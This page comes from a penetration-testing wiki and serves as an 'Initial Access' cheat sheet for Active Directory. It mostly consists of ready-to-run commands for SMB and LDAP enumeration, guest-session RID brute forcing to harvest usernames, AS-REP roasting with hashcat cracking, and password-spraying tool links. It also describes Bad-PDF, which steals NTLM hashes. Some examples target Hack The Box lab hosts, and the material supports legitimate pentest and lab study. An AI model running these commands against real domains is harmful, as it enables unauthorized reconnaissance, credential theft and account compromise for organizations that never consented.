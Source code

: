 ```yaml
---
layout: wiki
title: Initial Access
cate1: Internals
cate2: 1
description: Initial Access
keywords: Internals
---
```


# Initial Access

## Password Spraying
**[Password Spraying via Sprayhound](https://github.com/Hackndo/sprayhound)**
  - Checks badpwdcount attribute only in the domain policy

**Additional Resources**
  - [DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray)
  - [Invoke-CleverSpray](https://github.com/wavestone-cdt/Invoke-CleverSpray)
  - [Spray](https://github.com/Greenwolf/Spray)
  - [Hashcat Wordlists - InternalAllTheThings](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/hash-cracking/#hashcat-install)

## SMB Enumeration
**Nmap**

```
nmap --script smb-vuln* -p 139,445 [ip]
```

**Netexec**
```
## List Shares - Null session
netexec smb [host/ip] -u [user] -p [pass] --shares

## List Shares - Guest session
netexec smb [host/ip] -u guest -p '' --shares

## Spider Module through files
netexec smb -u [user] -p [pass] -M spider_plus
```

**Enum4linux**

```
enum4linux -a -u "" -p "" <DC IP>
enum4linux -a -u "guest" -p "" <DC IP>
```

**Smbclient**
```
smbclient -N -L //[ip]
smbclient //[ip]/[share name] -U [username] [password]
```

**Additional Resources**
  - [SMB - Share Enumeration Cheat Sheet](https://0xdf.gitlab.io/2024/03/21/smb-cheat-sheet.html)
  - [BIWasp/NetExec cheat sheet](https://github.com/BlWasp/NetExec-Cheatsheet)
  - [SMB Enumeration cheat sheet](https://0xdf.gitlab.io/2024/03/21/smb-cheat-sheet.html)
  - [CrackMapExec + NetExec cheat sheet](https://github.com/seriotonctf/cme-nxc-cheat-sheet)

## Rid Brute via SMB
**[Rid Brute via SMB](https://medium.com/@e.escalante.jr/active-directory-workshop-brute-forcing-the-domain-server-using-crackmapexec-pt-6-feab1c43d970)**

*Credits to 0xdf located [here](https://0xdf.gitlab.io/2024/03/21/smb-cheat-sheet.html)*

Every Windows object (including users and groups) has a security identifier or SID. The SID is a unique ID that contains a bunch of information about the domain configuration, and might look something like `S-1-5-21-1004336348-1177238915-682003330-512`.

Within a domain or stand-alone host, the entire SID except the last number will be the same, and the last number is the relative identifier, or RID. These values fall in a predictable range, and thus, we can brute force the numbers across that range and get a list of users and groups.

**Requires:** Guest read access to IPC$ (Remote IPC) SMB File Share 
```
## Using Netexec
nxc smb [IP] -u 'guest' -p '' --rid-brute > sid.txt
cat sid.txt | awk -F': ' '{print $2}' | awk '{print $1}' | sed 's/[DOMAIN]\\//' > users.txt

## Using rpcclient
rpcclient [IP] -U 'guest%'
lookupnames administrator
lookupsids S-1-5-21-622327497-3269355298-2248959698-[RID_value]

## Using Impacket
lookupsid.py guest@[IP] -no-pass

## ASrep Hashes via Username Enumeration
GetNPUsers.py [DOMAIN]/ -usersfile users.txt -format hashcat
hashcat -m 18200 creds.txt /usr/share/wordlists/rockyou.txt
```

## LDAP Enumeration
**Nmap**

```
nmap -n -sV --script "ldap* and not brute" -p 389 <DC IP>
```

**LDAPSearch**

```
ldapsearch -x -H ldap://BLACKFIELD -s base namingcontexts (Domain Contexts)
ldapsearch -x -H ldap://BLACKFIELD -D 'CN=support,CN=users,DC=BLACKFIELD,DC=local' -W -b 'DC=BLACKFIELD,DC=local' '(objectClass=user)' (Search Users)
ldapsearch -H ldap://192.168.110.55 -x -D "web_svc@painters.htb" -W -b "dc=painters,dc=htb" "(msDS-AllowedToDelegateTo=*)" msDS-AllowedToDelegateTo (Constrained Delegation)
```

**Additional resources**
  - [LDAPSearch Enumeration](https://notes.benheater.com/books/active-directory/page/ldapsearch)
  - [Useful LDAP queries](https://podalirius.net/en/articles/useful-ldap-queries-for-windows-active-directory-pentesting/)
  - [LDAP Domain Dump via Linux](https://github.com/dirkjanm/ldapdomaindump)

## Poisoning and Relay
Refer to [Poisoning and Relay](https://qwutony.github.io/wiki/003-3-Poisoning-And-Relay/)

## Web Application Vulnerabilities
**Bad PDF**
Bad-PDF create malicious PDF file to steal NTLM(NTLMv1/NTLMv2) Hashes from windows machines, it utilize vulnerability disclosed by checkpoint team to create the malicious PDF file. Bad-Pdf reads the NTLM hashes using Responder listener.

**Additional Resources**
  - [Malicious PDF](https://github.com/jonaslejon/malicious-pdf)
  - [Bad PDF](https://github.com/deepzec/Bad-Pdf)
  - [Bad PDF Checkpoint Research](https://research.checkpoint.com/ntlm-credentials-theft-via-pdf-files/)

## Integrated DNS Dump
**[Integrated DNS Dump](https://github.com/dirkjanm/adidnsdump)**

Any user in Active Directory can enumerate all DNS records in the Domain or Forest DNS zones, similar to a zone transfer.

Additional Resources:
  - [ADIDNS Dump](https://dirkjanm.io/getting-in-the-zone-dumping-active-directory-dns-with-adidnsdump/)
